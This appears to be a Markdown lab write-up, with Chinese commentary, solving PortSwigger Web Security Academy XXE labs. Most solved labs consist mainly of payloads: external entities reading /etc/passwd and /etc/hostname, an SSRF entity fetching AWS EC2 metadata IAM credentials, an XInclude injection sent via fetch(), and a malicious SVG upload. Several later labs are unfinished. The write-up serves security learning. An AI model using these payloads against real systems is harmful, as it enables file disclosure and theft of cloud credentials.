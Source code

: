 ```yaml
---
title: PortSwigger XML external entity (XXE) injection
description: PortSwigger XML external entity (XXE) injection
---
```


## Lab: Exploiting XXE using external entities to retrieve files

| Dimension | Description                                                                   |
| --------- | ----------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files     |
| Lab       | https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files |

先看一下正常的 XML Payload

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

替換成

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <storeId>1</storeId>
    <productId>&xxe;</productId>
</stockCheck>
```

## Lab: Exploiting XXE to perform SSRF attacks

| Dimension | Description                                                                     |
| --------- | ------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks |
| Lab       | https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf     |

這題要用 SSRF 去偷 AWS EC2 Metadata `http://169.254.169.254/`，但我之前沒用 EC2 戳過，所以不知道格式是什麼

總之這個 Endpoint 回傳的資料格式有點類似 Directory Listing 的結果，沒有任何點綴，單純就是字串用 `\n` 切開，例如

```
hello
world
```

所以我們要順著這個目錄一層一層往下移動，最後成功構造

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

## Lab: Exploiting XInclude to retrieve files

| Dimension | Description                                                  |
| --------- | ------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/xxe#xinclude-attacks    |
| Lab       | https://portswigger.net/web-security/xxe/lab-xinclude-attack |

這題簡單到我還沒意識到就通關了

```js
fetch(
  "https://0a95003503688eab825c4374001800ee.web-security-academy.net/product/stock",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

不過我很想吐槽的是，這根本是盲注（？誰會知道 API 的 productId 欄位會在 Backend 被轉成 XML，這比 SQLi 還不直覺啊（？也有可能是我太菜...

## Lab: Exploiting XXE via image file upload

| Dimension | Description                                                          |
| --------- | -------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe#xxe-attacks-via-file-upload |
| Lab       | https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload     |

這題利用 Server 的 XML Parser，會把圖片轉成 PNG，記得要讓 `<text>` 在 `<svg>` 的 `viewBox` 內，並且文字要盡可能的大一點，因為這題的 Server 把圖片轉成 PNG 以後會變超模糊，所以文字太小會看不到

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/hostname">]>
<svg xmlns="http://www.w3.org/2000/svg" width="500" height="200" viewBox="0 0 500 200">
    <text x="10" y="50" font-size="50" fill="black">&xxe;</text>
</svg>
```

之前確實有遇過，不管上傳什麼格式的圖片，都會統一轉成 PNG 的 Parser，但以前沒有這個攻擊手法，不知道原來 XML 跟 SVG 還能這樣搭配使用，真酷

## Lab: Blind XXE with out-of-band interaction

| Dimension | Description                                                                                          |
| --------- | ---------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe/blind#detecting-blind-xxe-using-out-of-band-oast-techniques |
| Lab       | https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction                  |

<!-- todo-yusheng -->

這題需要 Burp Suite Professional，之後再來解～

## Lab: Blind XXE with out-of-band interaction via XML parameter entities

| Dimension | Description                                                                                                  |
| --------- | ------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/xxe/blind#detecting-blind-xxe-using-out-of-band-oast-techniques         |
| Lab       | https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities |

<!-- todo-yusheng -->

這題需要 Burp Suite Professional，之後再來解～

## Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

| Dimension | Description                                                                                        |
| --------- | -------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band |
| Lab       | https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration               |

<!-- todo-yusheng -->

這題需要 Burp Suite Professional，之後再來解～

## Lab: Exploiting blind XXE to retrieve data via error messages

| Dimension | Description                                                                                             |
| --------- | ------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages |
| Lab       | https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages           |

## 參考資料

- https://portswigger.net/web-security/xxe
